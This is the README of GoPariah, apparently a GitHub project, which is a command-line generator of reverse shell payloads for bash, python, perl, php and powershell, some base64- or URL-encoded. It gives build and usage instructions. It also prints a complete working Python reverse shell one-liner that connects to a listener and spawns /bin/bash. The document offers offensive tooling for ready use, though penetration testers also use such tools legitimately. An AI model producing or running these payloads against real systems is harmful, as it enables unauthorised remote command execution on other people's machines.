 <div align=center>
  <img src="https://miro.medium.com/v2/resize:fit:1358/0*rs9e2N81fxl4n-Dx.png" width=250px>
</div>

# GOPARIAH

GoPariah is a tool to generate <i>reverse shell payloads</i> on the fly. Instead of having to navigate to [revshells.com](https://revshells.com/) or the [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) repository, you can easily generate different payloads from the CLI. It was inspired by [LazyPariah](https://github.com/octetsplicer/LAZYPARIAH) (a similar tool written in Ruby).

### Installing
You can build it from source by running the following commands:

```
$ git clone https://github.com/julio-cfa/gopariah.git
$ go build -o gopariah main.go
```
### Usage
```
$ ./gopariah --help
Usage: ./gopariah <revshell-type> <lhost> <lport> 

> Available revshells: 
  bash
  bash_urlencode
  python
  python3
  python_b64
  python3_b64
  python_urlencode
  python3_urlencode
  mkfifo
  mkfifo_urlencode
  perl
  perl_b64
  perl_urlencode
  php
  php_b64
  php_urlencode
  powershell
  powershell_b64
  powershell_urlencode
```
### Example
```
$ ./gopariah python3 127.0.0.1 9001
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
